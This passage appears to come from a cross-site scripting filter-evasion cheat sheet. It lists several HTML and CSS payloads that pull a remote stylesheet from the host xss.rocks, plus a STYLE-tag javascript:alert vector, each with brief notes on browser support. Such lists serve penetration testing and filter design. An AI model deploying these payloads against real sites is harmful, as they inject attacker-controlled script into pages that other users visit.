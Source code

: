 ```html
<link rel="stylesheet" href="http://xss.rocks/xss.css" />
```

## Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

```html
<style>
  @import 'http://xss.rocks/xss.css';
</style>
```

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```html
<meta http-equiv="Link" content="<http://xss.rocks/xss.css>; REL=stylesheet" />
```

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:

```html
<style>
  BODY {
    -moz-binding: url('http://xss.rocks/xssmoz.xml#xss');
  }
</style>
```

## STYLE Tags with Broken-up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

```html
<style>
  @im \port'\ja\vasc\ript:alert("XSS")';
</style>
```

## STYLE Attribute using a Comment to Break-up Expression
